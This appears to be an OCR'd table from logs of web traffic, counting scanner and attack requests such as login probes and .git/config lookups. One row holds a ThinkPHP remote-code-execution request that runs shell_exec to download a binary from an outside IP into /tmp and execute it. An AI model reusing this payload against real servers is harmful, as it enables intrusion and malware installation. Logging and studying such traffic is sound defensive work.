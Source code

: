|   2 |                    14 | GET /login.rsp HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
|   3 |                     8 | POST /FormLogin HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
|   4 |                     6 | GET /static/files/.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|   5 |                     6 | MGLNDD_xxx.xxx.xxx.xxx_80                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
|   6 |                     6 | GET /app/config/.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
|   7 |                     6 | GET /restore.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
|   8 |                     6 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |